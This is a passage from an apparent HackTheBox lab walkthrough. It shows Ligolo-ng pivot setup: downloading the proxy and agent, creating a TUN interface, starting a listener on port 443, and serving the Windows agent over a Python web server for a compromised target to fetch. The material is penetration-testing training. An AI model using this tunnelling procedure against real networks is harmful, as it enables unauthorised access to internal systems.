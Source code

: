 Think of it like this: DC01 is the front door that's unlocked. DC02 is inside the building. We need to run a cable from outside, through DC01, to reach DC02.

---

### Setting Up Ligolo-ng

**Step 1: Download the tools**

```bash
cd ~/hackthebox/darkzero

# Download proxy (for your Kali machine)
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz

# Download agent (for Windows target)
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-ng_agent_0.8.2_windows_amd64.zip

# Extract
tar -xzf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
unzip ligolo-ng_agent_0.8.2_windows_amd64.zip
chmod +x proxy
```

**Step 2: Create the tunnel interface**

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

🎓 **What's a TUN interface?**  
TUN (network TUNnel) is a virtual network interface. Think of it as creating a fake network card on your Kali machine that will receive traffic from the internal network through our tunnel.

**Step 3: Start the proxy server**

```bash
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

The proxy will generate a self-signed certificate and display a fingerprint. Copy this fingerprint! You'll need it soon.

**Example output:**

```
INFO[0000] TLS Certificate fingerprint for ligolo is: 6630035E09EBED79827CF051F792A28F272A0D8134B035177F03468A3A4E5500
```

**Step 4: Host the Windows agent**

In a new terminal:

```bash
python3 -m http.server 8000
```

---